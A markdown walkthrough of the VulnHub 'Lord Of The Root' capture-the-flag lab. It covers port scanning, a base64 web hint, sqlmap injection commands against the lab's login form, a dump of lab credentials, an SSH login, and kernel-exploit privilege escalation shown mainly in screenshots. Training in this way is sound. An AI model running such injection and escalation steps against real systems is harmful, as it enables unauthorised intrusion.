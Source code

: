 ```yaml
---
categories: [vulnhub]
tags: [vulnhub,walkthrough,pentest]
---
```

# Load of the root



## **Description ⤵️**


💡 [Lord Of The Root: 1.0.1](https://vulnhub.com/entry/lord-of-the-root-101,129/) →

I created this machine to help others learn some basic CTF hacking strategies and some tools. I aimed this machine to be very similar in difficulty to those I was breaking on the OSCP.

This is a boot-to-root machine will not require any guest interaction.

There are two designed methods for privilege escalation.

- 23/09/2015 == v1.0.1
- 22/09/2015 == v1.0

---

If you are having issues with VirtualBox, try the following:

- Downloaded LordOfTheRoot_1.0.1.ova (confirmed file hash)
- Downloaded and installed VMWare ovftool.
- Converted the OVA to OVF using ovftool.
- Modified the OVF using text editor, and did the following:
    
    replaced all references to "ElementName" with "Caption" replaced the single reference to "vmware.sata.ahci" with "AHCI"
    
- Saved the OVF. +Deleted the .mf (Manifest) file. If you don't you get an error when importing, saying the SHA doesn't match for the OVF (I also tried modifying the hash, but no luck).
- Try import the OVF file, and it should work fine.

Source: https://twitter.com/dooktwit/status/646840273482330112



Let’s find the IP Address first >>

![103-1.png](/Vulnhub-Files/img/Load_of_the_root/103-1.png)

```bash
IP : 10.0.2.23
```

## Port Scan Results ➡️

![104-2.png](/Vulnhub-Files/img/Load_of_the_root/104-2.png)

![104-1.png](/Vulnhub-Files/img/Load_of_the_root/104-1.png)

```bash
OPEN PORTS >
22   SSH
1337 HTTP
```

---

## Web Enumeration ⤵️

![105-1.png](/Vulnhub-Files/img/Load_of_the_root/105-1.png)

![105-2.png](/Vulnhub-Files/img/Load_of_the_root/105-2.png)

![105-3.png](/Vulnhub-Files/img/Load_of_the_root/105-3.png)

```bash
THprM09ETTBOVEl4TUM5cGJtUmxlQzV3YUhBPSBDbG9zZXIh
```

![105-4.png](/Vulnhub-Files/img/Load_of_the_root/105-4.png)

```bash
Closer!
```

![105-5.png](/Vulnhub-Files/img/Load_of_the_root/105-5.png)

![105-6.png](/Vulnhub-Files/img/Load_of_the_root/105-6.png)

Sqlmap →

```bash
commands →
sqlmap -o -u http**://**10.0.2.23**:**1337**/**978345210**/**index.php --form --dbs --l
```

![105-7.png](/Vulnhub-Files/img/Load_of_the_root/105-7.png)

![105-8.png](/Vulnhub-Files/img/Load_of_the_root/105-8.png)

```bash
Command → 
sqlmap -o -u http://10.0.2.23:1337/978345210/index.php --form --dbms m
```

![105-9.png](/Vulnhub-Files/img/Load_of_the_root/105-9.png)

```bash
+----+------------------+----------+

| id | password         | username |

+----+------------------+----------+

| 1  | iwilltakethering | frodo    |

| 2  | MyPreciousR00t   | smeagol  |

| 3  | AndMySword       | aragorn  |

| 4  | AndMyBow         | legolas  |

| 5  | AndMyAxe         | gimli    |

+----+------------------+----------+
```

Now lets try SSH login →

```bash
MyPreciousR00t
```

![106-1.png](/Vulnhub-Files/img/Load_of_the_root/106-1.png)

Now lets check the kernel version →

![106-2.png](/Vulnhub-Files/img/Load_of_the_root/106-2.png)

I found on web →

![106-3.png](/Vulnhub-Files/img/Load_of_the_root/106-3.png)

![106-4.png](/Vulnhub-Files/img/Load_of_the_root/106-4.png)

Let's try it out →

I got it →

![106-5.png](/Vulnhub-Files/img/Load_of_the_root/106-5.png)

Flag.txt →

![106-6.png](/Vulnhub-Files/img/Load_of_the_root/106-6.png)

---

# **Summery Notes →**

→ sqlmap

→ post exploit can be done with exploiting kernel or ,

→ Buffer Overflow